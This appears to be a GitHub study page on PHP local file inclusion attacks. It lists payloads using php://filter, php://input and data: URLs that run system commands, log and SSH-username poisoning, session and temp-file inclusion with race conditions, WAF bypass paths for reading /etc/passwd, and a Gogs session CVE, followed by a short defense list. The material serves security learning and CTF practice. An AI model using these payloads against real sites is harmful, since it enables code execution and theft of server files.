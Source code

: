 # File Inclusion  
PHP:  
*  [Environment](#environment)  
*  [Methods to include](#methods-to-include)  
*  [WAF bypass](#waf-bypass)  
*  [LFI with PHP7 segfault](#lfi-with-php7-segmentfault)  

Gogs:  
*  [Inject path to session id](#inject-path-to-session-id)  
  
Conclusion:  
*  [Defense](#defense)  
*  [Reference](#reference)    

# Environment  
Here I would put some settings that you need to know before starting on Local File Inclusion. In `php.ini`:  
1. `allow_url_include` (default: off and makes it impossible to RFI)  
2. `session.auto_start` (default: off and makes it hard to create session)  
3. `session.upload_progress.cleanup` (default: On and makes it hard to include the session)  

# Methods to include  
File inclusion is always used to arbitrary code execution:  
1. pseudo protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get base-64 encoded source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// It's important that filter can be used to handle string with various ways, please take a look at the reference#1
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php

phar://path.zip/file.php
// php5.3.0up, parse the archived file
// Sam Thomas publish a new use of phar able to unserialize without unserialize() function, please take a look at my Unserialization part

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23

data:URL schema
// php5.2up, two settings in php.ini set to on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64 encode phpinfo)
```  
More protocol：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. Session inclusion  
We can control the content of session, and we also know the path of session...  
Path of session can be got from `session_save_path` in phpinfo  

🍊Include Session in Hitcon CTF 2018 [ONE LINE PHP CHALLENGE](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html):  
`session.upload_progress.name` ➡️ create session file ➡️ filename: `sess_{PHPSESSID}`  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/burp_multipart.png)
As long as `PHP_SESSION_UPLOAD_PROGRESS` in POST of multipart/form-data and `session.upload_progress.enabled = On` (fortunately default is on), PHP session files would be created no matter `session.auto_start = 0`! Then to deal with the problem of `session.upload_progress.cleanup = On`, we need race condition.  
[hitcon 2018受虐笔记一:one-line-php-challenge 学习 by wonderkun](http://wonderkun.cc/index.html/?cat=1)  
[Session Upload Progress ](http://php.net/manual/en/session.upload-progress.php)  

3. Log inclusion  
**Permission** to read the log?  
Take apache for example, request would be written to `access.log`, and error would be written to `error.log`. The default stored path is `/var/log/apache2/`  
Therefore, attacker always needs to get the path with config file, and pay attention to the fact that whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  

4. SSH log inclusion  
**Permission** to read?  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  
5. include temp file (lfi with phpinfo)  
Just like the picture in [LFI with PHP7 segfault](#lfi-with-php7-segmentfault), PHP handles `enctype="multipart/form-data"` with following steps. When output from PHP script is larger than output buffer setting (which is always 4096), the partial content would change to `Transfer-Encoding: chunked`. Therefore, what we need to do is to delay the execution time of PHP script. The reason for using phpinfo is getting the tmp file name from `$_FILE`.  

6. include `/proc/self/environ`: php requires to run as CGI  

7. include uploaded file: need uploading functionality on website itself   

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```  

# LFI with PHP7 SegmentFault  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/php_tmp.PNG)  
In the environment of `php7.1.13` (The bug has been fixed in php7.1.24):  
```
php://filter/string.strip_tags/resource=xxx
```  
will cause to segmentation fault. Therefore, the tmp file cannot be removed because PHP is crashed, then we can use bruteforce to include the tmp file. With analysis, the bug of PHP is due to the inference of null pointer.  
[Script by @Wang YiHang](https://www.jianshu.com/p/dfd049924258)  

# Inject path to session id
[CVE-2018-18925](https://github.com/vulhub/vulhub/tree/master/gogs/CVE-2018-18925)  
The cause of this bug is that framework use file as the session provider, but not all framework do the same things. You can try to include the other file as fake session.  

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)  
2. [LFI with phpinfo assistance](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)  
3. [php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/?fbclid=IwAR0537cUHx0RuYwbjdVLudlitdkofr5HHhqMcafXW3aoWqlUoJ_lMRAsnk8)
